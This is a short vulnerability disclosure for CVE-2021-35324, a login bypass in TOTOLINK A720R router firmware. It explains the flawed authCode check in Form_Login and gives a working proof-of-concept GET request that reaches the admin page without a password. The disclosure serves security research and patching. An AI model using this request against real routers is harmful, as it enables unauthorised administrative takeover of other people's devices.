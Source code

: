 # TOTOLINK Vulnerability

Vendor:TOTOLINK

Product:A720R

Version:A720R_Firmware(V4.1.5cu.470_B20200911)

Type:Login bypass

Author:Huizhao Wang, Chuan Qin

Institution:wanghuizhao@iie.ac.cn, qinchuan@iie.ac.cn

## Vulnerability description

We found a Login bypass vulnerability in TOTOLINK Technology router with firmware which was released recently, allows remote attackers to login admin page without password.

In `Form_Login` function, `getNthValueSafe` loops to get url parameters. If there is `authCode` in the url parameter and its value is `1`, then the following check will pass directly.

![image-20210611105043705](A720R_login_bypass.assets/image-20210611105043705.png)

## POC

We set `authCode=1` and `userName=admin` , then sending GET request such as:

http://192.168.0.1/formLoginAuth.htm?authCode=1&userName=admin&goURL=home.html&action=login

Finally, we enter the admin page as an admin user.

## CVE info

CVE-2021-35324
